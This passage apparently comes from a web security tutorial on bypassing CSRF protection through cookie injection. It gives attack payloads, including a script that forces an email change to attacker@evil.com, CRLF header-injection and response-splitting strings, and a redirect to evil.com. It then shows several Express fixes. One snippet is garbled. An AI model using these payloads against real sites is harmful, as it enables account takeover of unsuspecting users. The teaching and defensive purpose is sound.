If site has XSS vulnerability:

<script>
// Set csrfKey via JavaScript
document.cookie = "csrfKey=ATTACKER_KEY; SameSite=None; Secure";

// Submit CSRF form
setTimeout(() => {
    const form = document.createElement('form');
    form.method = 'POST';
    form.action = 'https://vulnerable.com/change-email';
    
    const email = document.createElement('input');
    email.name = 'email';
    email.value = 'attacker@evil.com';
    
    const csrf = document.createElement('input');
    csrf.name = 'csrf';
    csrf.value = 'ATTACKER_TOKEN';  // Matches ATTACKER_KEY
    
    form.appendChild(email);
    form.appendChild(csrf);
    document.body.appendChild(form);
    form.submit();
}, 100);
</script>

Advantages:
├── No need for CRLF injection
├── More control over timing
├── Can verify cookie was set
└── Can handle responses
```

---

### **Variation 2: Subdomain Cookie Injection**

```HTTP
If attacker controls subdomain:

Attacker's subdomain: evil.example.com
Target site: www.example.com

From evil.example.com:
Set-Cookie: csrfKey=ATTACKER_KEY; Domain=example.com; SameSite=None

Result:
└── Cookie set for entire example.com domain!
    └── Sent to www.example.com
        └── Used in CSRF attack! 💣

Requirements:
├── Control of any subdomain
├── Cookie scoped to parent domain
└── No host prefix on cookie name

Prevention:
└── Use __Host- prefix on cookies
    └── Prevents subdomain injection
```

---

### **Variation 3: Multiple Header Injection**

```HTTP
Inject multiple cookies at once:

/?search=test%0d%0a
Set-Cookie:%20csrfKey=VALUE%3b%20SameSite=None%0d%0a
Set-Cookie:%20otherCookie=otherValue

Result:
Set-Cookie: lastSearch=test
Set-Cookie: csrfKey=VALUE; SameSite=None
Set-Cookie: otherCookie=otherValue

Allows:
└── Setting up complete attack environment
    └── Multiple cookies
    └── Multiple headers
    └── Full control
```

---

### **Variation 4: Response Splitting**

```HTTP
Advanced CRLF exploitation:

/?search=test%0d%0a
Content-Length:%200%0d%0a
%0d%0a
HTTP/1.1%20200%20OK%0d%0a
Content-Type:%20text/html%0d%0a
%0d%0a
<script>alert(1)</script>

Can inject entire HTTP response!
└── Response splitting attack
    └── Beyond just cookie injection
        └── Full XSS or other attacks
```

---

### **Variation 5: Cookie Tossing**

```
If multiple cookies with same name:

Set-Cookie: csrfKey=LEGIT_VALUE
Set-Cookie: csrfKey=ATTACKER_VALUE

Browser behavior varies:
├── Some send first value
├── Some send last value
├── Some send all values
└── Some send concatenated

Testing:
└── Try injecting second csrfKey
    └── See which value server uses
        └── May override legitimate cookie!
```

---

### **Variation 6: Delayed Submission**

```r
<!-- Wait for cookie to propagate -->
<form method="POST" action="https://vulnerable.com/change-email">
    <input type="hidden" name="email" value="evil@attacker.com">
    <input type="hidden" name="csrf" value="ATTACKER_TOKEN">
</form>

 document.forms[0].submit(), 1000)">

Adds delay:
└── Ensures cookie is set
    └── Before form submission
        └── Higher success rate
```

---

### **Variation 7: Meta Refresh Injection**

```HTTP
Inject redirect header:

/?search=test%0d%0a
Set-Cookie:%20csrfKey=VALUE%3b%20SameSite=None%0d%0a
Refresh:%200;url=https://evil.com/

Sets cookie then redirects:
└── Can chain multiple exploits
    └── Cookie injection + redirect
        └── More complex attack paths
```

---

### **Variation 8: Cache Poisoning**

```r
If response is cached:

Poison cache with CRLF injection:
└── All users get response with injected cookies
    └── Widespread cookie injection!
        └── Affects many users

Requirements:
├── Caching of vulnerable endpoint
├── Cache key doesn't include injection
└── No user-specific content
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Bind Token to Session (Proper)**

```javascript
// ✅ SECURE - Session-bound tokens

app.use(session({
    secret: 'session-secret',
    resave: false,
    saveUninitialized: false
}));

app.use((req, res, next) => {
    if (!req.session.csrfToken) {
        // Generate token for session
        req.session.csrfToken = crypto.randomBytes(32).toString('hex');
    }
    next();
});

app.post('/change-email', (req, res) => {
    const sessionToken = req.session.csrfToken;
    const requestToken = req.body.csrf;
    
    // Validate token belongs to session
    if (!sessionToken || requestToken !== sessionToken) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    updateEmail(req.session.userId, req.body.email);
    res.redirect('/my-account');
});

Benefits:
✅ Token stored in session (server-side)
✅ No separate cookie needed
✅ Cannot be injected by attacker
✅ Properly session-bound
```

---

### **Fix 2: Sanitize Header Values**

```javascript
// ✅ SECURE - Prevent CRLF injection

function sanitizeHeaderValue(value) {
    // Remove CRLF characters
    return value
        .replace(/\r/g, '')
        .replace(/\n/g, '');
}

app.get('/', (req, res) => {
    const search = req.query.search || '';
    const sanitized = sanitizeHeaderValue(search);
    
    res.cookie('lastSearch', sanitized, {
        httpOnly: true,
        secure: true,
        sameSite: 'Strict'
    });
    
    res.render('index');
});

Benefits:
✅ CRLF characters removed
✅ Cannot inject headers
✅ Cookie injection prevented
✅ Safe header handling
```

---

### **Fix 3: Use Framework Methods**

```javascript
// ✅ SECURE - Framework handles encoding

// Express automatically encodes cookie values
res.cookie('lastSearch', req.query.search, {
    httpOnly: true,
    secure: true,
    sameSite: 'Strict'
});

// Don't manually set headers:
// ❌ res.setHeader('Set-Cookie', `name=${value}`)

// Use framework's cookie method:
// ✅ res.cookie(name, value, options)

Benefits:
✅ Automatic encoding
✅ CRLF protection built-in
✅ Framework handles security
✅ Less developer error
```

---

### **Fix 4: Validate Cookie Against Session**

```javascript
// ✅ SECURE - Validate cookie belongs to session

app.post('/change-email', (req, res) => {
    const csrfKey = req.cookies.csrfKey;
    const csrfToken = req.body.csrf;
    const sessionId = req.sessionID;
    
    // Check token matches cookie
    if (generateToken(csrfKey) !== csrfToken) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    // ✅ CRITICAL: Check cookie belongs to session
    if (req.session.csrfKey !== csrfKey) {
        return res.status(403).send('CSRF cookie mismatch');
    }
    
    updateEmail(req.session.userId, req.body.email);
    res.redirect('/my-account');
});

Benefits:
✅ Cookie validated against session
✅ Injected cookie won't match
✅ Session binding enforced
✅ Proper validation
```

---

### **Fix 5: Use SameSite=Strict**

```javascript
// ✅ SECURE - Prevent cross-site cookie usage

res.cookie('csrfKey', csrfKey, {
    httpOnly: false,  // Needs JS access
    secure: true,
    sameSite: 'Strict'  // Not sent cross-site!
});

Benefits:
✅ Cookie not sent from other sites
✅ CSRF largely prevented
✅ Even if injected, won't work
✅ Modern browser protection

Note:
└── SameSite=Strict can break legitimate flows
    └── Use SameSite=Lax for most cases
        └── Still protects against CSRF
```

---

### **Fix 6: Token Derivation with Secret**

```javascript
// ✅ SECURE - Derive token from session + secret

function generateSecureToken(sessionId, secret) {
    return crypto
        .createHmac('sha256', secret)
        .update(sessionId)
        .digest('hex');
}

app.post('/change-email', (req, res) => {
    const expectedToken = generateSecureToken(
        req.sessionID,
        process.env.CSRF_SECRET
    );
    
    if (req.body.csrf !== expectedToken) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    // Token verifiably tied to session
    updateEmail(req.session.userId, req.body.email);
    res.redirect('/my-account');
});

Benefits:
✅ Token cryptographically bound to session
✅ Cannot forge without secret
✅ Cannot inject matching cookie
✅ Stateless validation possible
```

---

### **Fix 7: Content Security Policy**

```HTTP
# ✅ SECURE - CSP prevents cookie injection

Content-Security-Policy: 
    default-src 'self';
    script-src 'self';
    img-src 'self';

Benefits:
✅ Blocks external resources
✅ Prevents XSS-based injection
✅ Limits attack vectors
✅ Defense in depth

Note:
└── Doesn't prevent CRLF injection
    └── But prevents XSS vectors
        └── Multiple layers of protection
```

---

### **Fix 8: Input Validation**

```javascript
// ✅ SECURE - Strict input validation

app.get('/', (req, res) => {
    const search = req.query.search || '';
    
    // Validate input format
    if (!/^[a-zA-Z0-9 ]*$/.test(search)) {
        return res.status(400).send('Invalid search query');
    }
    
    // Safe to use after validation
    res.cookie('lastSearch', search, {
        httpOnly: true,
        secure: true,
        sameSite: 'Strict'
    });
    
    res.render('index', { search });
});

Benefits:
✅ Whitelist allowed characters
✅ Rejects malicious input
✅ Prevents injection
✅ Clear validation rules
```

---

